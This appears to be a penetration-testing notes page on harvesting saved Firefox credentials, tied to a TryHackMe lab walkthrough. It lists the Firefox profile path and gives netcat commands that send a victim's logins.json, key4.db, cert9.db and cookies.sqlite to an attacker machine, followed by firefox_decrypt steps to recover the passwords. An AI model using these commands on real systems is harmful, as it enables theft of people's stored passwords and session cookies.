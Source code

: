 # Credential Harvesting

## Browsers

### **Firefox**

**Common Areas**

| Location                                                   | Notes                                                                                                                                                      | Example    |
| ---------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------- |
| C:\Users\\$USER\AppData\Roaming\Mozilla\Firefox\Profiles\\ | <p>Depending on the version of Firefox there will be a folder with the files you need.<br><strong>ex:</strong> ljfn812a.default-release = Firefox 75.0</p> | Gatekeeper |
|                                                            |                                                                                                                                                            |            |
|                                                            |                                                                                                                                                            |            |
|                                                            |                                                                                                                                                            |            |

**Exploit**

{% embed url="https://github.com/unode/firefox_decrypt" %}

#### Decrypt Credentials

**Examples**

[gatekeeper.md](../../walkthroughs/tryhackme/gatekeeper.md "mention")

**Kali**&#x20;

We need to transfer the following files one by one.

```
nc -nlvp 1234 > logins.json
nc -nlvp 1234 > key4.db 
nc -nlvp 1234 > cert9.db 
nc -nlvp 1234 > cookies.sqlite
```

**Victim**

```
nc64.exe -nv $KALI 1234 < logins.json
nc64.exe -nv $KALI 1234 < key4.db 
nc64.exe -nv $KALI 1234 < cert9.db 
nc64.exe -nv $KALI 1234 < cookies.sqlite
```

This will show any passwords saved in Firefox

**Kali**&#x20;

```
git clone https://github.com/unode/firefox_decrypt.git
python3.9 firefox_decrypt.py ./
```
